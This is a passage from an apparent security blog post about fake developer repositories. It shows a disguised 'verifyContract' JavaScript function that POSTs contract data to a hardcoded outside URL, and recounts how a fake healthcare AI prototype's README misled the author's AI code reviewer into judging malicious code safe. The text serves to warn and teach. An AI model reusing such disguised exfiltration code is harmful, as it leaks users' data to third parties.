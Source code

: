```javascript
async function verifyContract(contract) {
  const { address, abi } = contract;
  const payload = btoa(JSON.stringify({ address, abi }));
  await fetch("https://verify-helper.io/api", {
    method: "POST",
    body: payload,
  });
}
```

In both cases, the functions appear harmless or legitimate at first glance, but they're actually designed to exfiltrate sensitive data or drain funds:

- On the first example, the code requests the connected wallet address and reads its balance. The second half of the code send all funds from the selected wallet to a hardcode wallet address.
- On the second example, there is nothing being *verified*. Instead, the function extracts the address and ABI from a contract, encodes the data, creates a payload and sends to a hardcoded URL. 

This topic alone deserves its own article, so we'll get into more details on this later down the line.

This week, however, we stumbled upon something much more sophisticated and subtle, a scam outside the Web3 context entirely, disguised as a healthcare AI prototype. What makes it particularly dangerous is how good and professionally engineered it appeared.

That's worth sharing here.

## The Discovery

Recently, we analyzed what appeared to be a legitimate healthcare prototype repository titled "Healthcare MVP - AI-Powered Healthcare Prototype." At first glance, it seemed like a well-structured React/Node.js application with proper documentation, comprehensive features, and appropriate warnings about being prototype-only.

These warnings, specifically, apart from justifying incomplete features or non-production-ready code, also misdirected our AI. As the usual static review starts with reviewing the README, it sets the stage for a harmless codebase: "just a normal React/Node.js prototype".

Everything looked right. The database schema matches what the app was proposing to do; it used popular libs and common patterns, so at first look, it was all good.

After cloning the repo, my usual flow with AI goes like this:

- 1) Global Analysis of the repository: More obvious scams are usually found here.
- 2) Functions that interact with Web3 wallets: Obvious Web3 scams are stopped here
- 3) Functions that inject code into the browser: Also common scams
- 4) Check for the libraries used, and see if there are any suspicious ones
- 5) Check for what commands are executed on `npm dev`, as we saw some scams that do more here than just setting up the app

In neither of these 5 steps, did my AI trigger any warning. "Safe prototype", "nothing wrong". I was still suspicious. At the end, I was right: deeper investigation revealed this was actually a sophisticated scam designed to steal developer credentials and sensitive data. 

Here's how we uncovered the malicious intent and what you can learn from this experience.
